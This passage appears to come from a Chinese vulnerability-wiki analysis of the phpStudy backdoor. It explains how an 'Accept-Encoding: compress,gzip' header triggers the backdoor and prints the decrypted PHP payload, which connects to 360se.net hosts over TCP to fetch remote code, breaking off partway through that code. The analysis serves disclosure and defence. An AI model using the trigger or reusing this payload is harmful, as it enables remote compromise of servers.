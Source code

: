 第二部分，反向连接：判断ACCEPT\_ENCODING如果等于compress,gzip，通过关键部分\@eval(gzuncompress(\'%s\'));可以看到拼接了一段恶意代码，然后调用gzuncompress方法执行解密。

构造HTTP头，把Accept-Encoding改成Accept-Encoding:
compress,gzip可以触发第二部分。

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    …..
    Accept-Encoding:compress,gzip
    ….

![2.jpg](/Users/aresx/Documents/VulWiki/.resource/Phpstudy后门(非官方后门！！！)/media/rId29.jpg)

图2：第1部分流程判断代码

![3.jpg](/Users/aresx/Documents/VulWiki/.resource/Phpstudy后门(非官方后门！！！)/media/rId30.jpg)

图3：第2部分流程判断代码

这一部分有两处会执行zend\_eval\_strings函数代码的位置。分别是从1000D66C到1000E5C4的代码解密：

    @ini_set("display_errors","0");
    error_reporting(0);
    function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
        $result = "";
      $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10); 
      if( !$handle ){
        $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
        if( !$handle ){
            return "err";
        }
      }
      fwrite($handle, $sendMsg."\n");
        while(!feof($handle)){
            stream_set_timeout($handle, 2);
            $result .= fread($handle, 1024);
            $info = stream_get_meta_data($handle);
            if ($info['timed_out']) {
              break;
            }
         }
      fclose($handle); 
      return $result; 
    }

    $ds = array("www","bbs","cms","down","up","file","ftp");
    $ps = array("20123","40125","8080","80","53");
    $n = false;
    do {
        $n = false;
        foreach ($ds as $d){
            $b = false;
            foreach ($ps as $p){
                $result = tcpGet($i,$d.".360se.net",$p); 
                if ($result != "err"){
                    $b =true;
                    break;
                }
            }
            if ($b)break;
        }
        $info = explode("<^>",$result);
        if (count($info)==4){
            if (strpos($info[3],"/*Onemore*/") !== false){
                $info[3] = str_replace("/*Onemore*/","",$info[3]);